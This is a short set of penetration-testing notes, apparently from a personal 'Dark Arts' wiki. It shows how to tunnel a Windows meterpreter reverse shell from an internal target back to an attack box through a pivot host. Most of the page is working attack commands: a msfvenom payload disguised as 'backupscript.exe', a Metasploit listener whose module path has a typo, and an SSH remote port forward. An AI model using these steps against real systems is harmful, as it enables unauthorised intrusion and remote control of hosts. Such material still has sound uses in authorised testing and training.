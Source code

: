 kill
-- -
Presented as a way to get a reverse shell from an internal host to your attack host that is not connected to the internal network directly. You will be tunneling the reverse shell through a pivot host you control. 
### Steps
1. Create payload for reverse shell from target internal host to the pivot host
2. File transfer payload to pivot host, then to the target internal host
3. Setup listener on attack host
4. Setup port forward from pivot box to attack box
5. Execute payload on target internal host, tunnel should send the shell back to your listener on your attackbox
### Execution
1. Create the payload on attack box:
```bash 
msfvenom -p windows/x64/meterpreter/reverse_https lhost=<pivotbox internal ip> lport=8080 -f exe -o backupscript.exe
```
2. [[Dark Arts/File Transfer/~Home|File Transfer]] payload to pivot box, and then to the target internal host.
3. Setup attack box listener
```bash
msfconsole
use exploit/muli/handler
set lhost 0.0.0.0
set lport 8000
run
```
4. Setup remote port forward, from attack box
```bash
# -vN: verbose, no login prompt
# -R: Asks pivot box to listen on port 8080 and forward traffic to our attack host on port 8000
ssh -R <pivot host ip>:8080:0.0.0.0:8000 <user>@<pivot IP> -vN
```
5. Execute the payload on the internal target host, you should get a shell on your meterpreter listener. 